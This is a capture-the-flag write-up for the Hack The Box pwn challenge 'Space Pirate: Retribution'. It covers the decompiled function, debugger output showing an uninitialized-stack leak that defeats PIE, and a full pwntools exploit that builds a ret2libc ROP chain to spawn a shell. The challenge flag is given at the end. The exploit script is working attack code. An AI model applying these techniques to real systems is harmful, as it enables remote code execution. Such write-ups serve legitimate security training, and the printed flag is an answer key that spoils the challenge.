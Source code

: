 # Space Pirate: Retribution

We are given the binary, linker and libc files.

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis
Decompiled `missile_launcher` function:
```
void missile_launcher(void)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined local_38 [32];
  undefined8 local_18;
  undefined8 local_10;
  
  local_10 = 0x53e5854620fb399f;
  local_18 = 0x576b96b95df201f9;
  printf("\n[*] Current target\'s coordinates: x = [0x%lx], y = [0x%lx]\n\n[*] Insert new coordinate s: x = [0x%lx], y = "
         ,0x53e5854620fb399f,0x576b96b95df201f9,0x53e5854620fb399f);
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  read(0,local_38,0x1f);
  printf("\n[*] New coordinates: x = [0x53e5854620fb399f], y = %s\n[*] Verify new coordinates? (y/n) : "
         ,local_38);
  read(0,&local_58,0x84);
  printf("\n%s[-] Permission Denied! You need flag.txt in order to proceed. Coordinates have been re set!%s\n"
         ,&DAT_00100d70,&DAT_00100d78);
  return;
}
```

Interesting, `local_38` variable is of type `undefined`. Perhaps, it contains interesting data at initialization. Let's take a deeper look using `gef`.

When we break at `read(0,local_38,0x1f);`, RSI register is basically `local_38`. Interestingly, it contains some value.
```bash
──────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5624cef6ca8a <missile_launcher+104> mov    edx, 0x1f
   0x5624cef6ca8f <missile_launcher+109> mov    rsi, rax
   0x5624cef6ca92 <missile_launcher+112> mov    edi, 0x0
 → 0x5624cef6ca97 <missile_launcher+117> call   0x5624cef6c790 <read@plt>
   ↳  0x5624cef6c790 <read@plt+0>     jmp    QWORD PTR [rip+0x202812]        # 0x5624cf16efa8 <read@got.plt>
      0x5624cef6c796 <read@plt+6>     push   0x3
      0x5624cef6c79b <read@plt+11>    jmp    0x5624cef6c750
      0x5624cef6c7a0 <srand@plt+0>    jmp    QWORD PTR [rip+0x20280a]        # 0x5624cf16efb0 <srand@got.plt>
      0x5624cef6c7a6 <srand@plt+6>    push   0x4
      0x5624cef6c7ab <srand@plt+11>   jmp    0x5624cef6c750
──────────────────────────────────────────────────────────── arguments (guessed) ────
read@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x00007fffefb46700 → 0x00005624cef6cd68 →  sbb ebx, DWORD PTR [rbx+0x31],
   $rdx = 0x000000000000001f
)
```

In fact, `local_38` contains address that points to binary address.
```bash
gef➤  vmmap
0x00005624cef6c000 0x00005624cef6f000 0x0000000000000000 r-x /home/kali/Downloads/apocalyse/sp_retribution/sp_retribution
0x00005624cf16e000 0x00005624cf16f000 0x0000000000002000 r-- /home/kali/Downloads/apocalyse/sp_retribution/sp_retribution
0x00005624cf16f000 0x00005624cf170000 0x0000000000003000 rw- /home/kali/Downloads/apocalyse/sp_retribution/sp_retribution
-more-
```

If we submit only a newline character, it will only overwrite LSB of the address. We can still use the address to calculate base binary address. Effectively, it allows us to bypass PIE. 

Also, there is a buffer overflow vulnerability. The `read(0,&local_58,0x84);` (as shown above) reads 0x84 bytes of characters from stdin. However, the total size of local variables is less than 0x84. So, we can provide the typical ROP chain to get RCE.

## Exploit
Idea: Send newline character via `read()`. Leaks binary addresses via the following `printf()`. Calculate the base binary address to bypass PIE. Using the base binary address, calculate the address of `pop rdi; ret;` gadget in the binary, the address of `puts@plt` and `puts@got` (called before). Perform buffer overflow via the second `read()` to create a typical ROP chain (leaks `puts` libc address -> re-runs `main` function -> calculate `system` and `/bin/sh` address -> calls `system("/bin/sh")`) to obtain RCE.  
```python
from pwn import *

elf = ELF('./sp_retribution')
r = process(elf.path)
#r = elf.process()
#r = remote('167.71.138.246', 32450)
pause()

r.sendlineafter(b'>> ', b'2')
r.sendlineafter(b'Insert new coordinates: x = [0x53e5854620fb399f], y = ', b'')
r.recvuntil(b'New coordinates: x = [0x53e5854620fb399f], y = ')
base_binary = u64((r.read(6)).ljust(8, b'\x00')) - 0xd0a 
print(hex(base_binary))

pop_rdi = base_binary + 0xd33
# puts_plt = base_binary + 0x790
puts_plt = base_binary + elf.plt['puts']
puts_got = base_binary + elf.got['puts']
main = base_binary + 0xc39
print(hex(pop_rdi))
print(hex(puts_plt))
print(hex(puts_got))

payload = b'A' * 80 
payload += b'B' * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
r.recvuntil(b'Verify new coordinates? (y/n): ') 
r.sendline(payload)
r.readline()
r.readline()
leak_puts = u64((r.readline()[:-1]).ljust(8, b'\x00'))
base_libc = leak_puts - 0x6f6a0
bin_sh = base_libc + 0x18ce57
system = base_libc + 0x453a0
print(hex(leak_puts))

r.sendlineafter(b'>> ', b'2')
r.sendlineafter(b'Insert new coordinates: x = [0x53e5854620fb399f], y = ', b'')
payload = b'A' * 80
payload += b"B" * 8
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
r.sendlineafter(b'Verify new coordinates? (y/n): ', payload)

r.interactive()
```


Flag: `HTB{d0_n0t_3v3R_pr355_th3_butt0n}`